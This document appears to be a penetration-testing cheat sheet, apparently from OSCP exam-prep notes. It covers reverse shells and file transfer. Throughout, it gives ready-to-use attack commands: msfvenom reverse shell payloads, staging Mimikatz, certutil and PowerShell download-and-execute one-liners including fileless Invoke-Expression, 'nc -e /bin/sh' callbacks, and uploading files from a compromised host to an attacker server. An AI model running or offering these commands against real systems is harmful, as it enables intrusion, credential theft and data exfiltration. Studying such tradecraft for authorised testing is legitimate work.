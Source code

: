 # 1. Setup Kali for connections

## 1.1. Setup listener

```console
nc -nlvp 4444
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## 1.2. Prepare payload transfer

Prepare files to web server root

☝️ Apache2 is already running with DocumentRoot at `/var/www/html`

If Kali isn't setup as web server, use `python3 -m http.server 80 &> /dev/null &` to run a web server endpoint, the web server root will be the `pwd` where the command was run

### Mimikatz:

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html
```

### MSFVenom reverse shell TCP:

☝️ omit the `x64` to generate a x86 payload

Linux:

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f py -o /var/www/html/reverse.py
```

Windows:

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
```

### PowerShell-based reverse shell script:

Download the reverse shell scription:

```console
curl -O https://raw.githubusercontent.com/joetanx/oscp/main/reverse.ps1
```

Edit the address and port:

```console
sed -i 's/<ADDRESS>/kali.vx/' reverse.ps1
sed -i 's/<PORT>/4444/' reverse.ps1
```

# 2. Execute payloads on Windows

## 2.1. Execute Windows reverse shell TCP payload

|   |   |
|---|---|
|certutil|`certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %TEMP%\reverse.exe && %TEMP%\reverse.exe`|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','%TEMP%\reverse.exe'); Start-Process %TEMP%\reverse.exe`|

## 2.2. Execute PowerShell-based reverse shell script

☝️ `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only

(i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/reverse.ps1')
```

# 3. Execute payloads on Linux

## 3.1. Simply nc back (if netcat is installed on target machine)

```console
nc -nv 192.168.17.10 4444 -e /bin/sh
```

## 3.2. Execute Linux reverse shell TCP payload

```console
curl -O http://kali.vx/reverse.elf && chmod +x reverse.elf && ./reverse.elf
```

# 4. Uploading files from Windows to Kali

## 4.1. HTTP

### 4.1.1. Setup upload page on web server

#### Prepare uploads directory

```console
mkdir /var/www/html/uploads
chown www-data:www-data /var/www/html/uploads
```

☝️ apache2 runs as `www-data` user, it needs write permission on the uploads directory for uploads to succeed

#### Prepare upload page

```console
curl -o /var/www/html/upload.php https://raw.githubusercontent.com/joetanx/oscp/main/upload.php
```

☝️ The name for the upload parameter is named as default of `file` to accommodate the PowerShell `UploadFile` method of `System.Net.WebClient` which will `POST` the file to this name

### 4.1.2. Uploading

|   |   |
|---|---|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).UploadFile('http://kali.vx/upload.php','The Little Prince.jpg')`|
|cURL|`curl -H 'Content-Type:multipart/form-data' -X POST -F file=@"The Little Prince.jpg" -v http://kali.vx/upload.php`|

## 4.2. SMB

### 4.2.1. [Create a passwordless guest share in Samba](https://www.techrepublic.com/article/how-to-create-a-passwordless-guest-share-in-samba/)

```console
sed -i '/;   interfaces/a interfaces = eth0' /etc/samba/smb.conf
sed -i '/;   bind interfaces only = yes/a bind interfaces only = yes' /etc/samba/smb.conf
mkdir /home/share
chmod -R ugo+w /home/share
cat << EOF >> /etc/samba/smb.conf
[public]
path = /home/share
public = yes
guest ok = yes
writable = yes
force create mode = 0666
force directory mode = 0777
browseable = yes
EOF
systemctl enable --now smbd
```

### 4.2.2. Copy

```cmd
copy "The Little Prince.jpg" \\kali.vx\public\
```
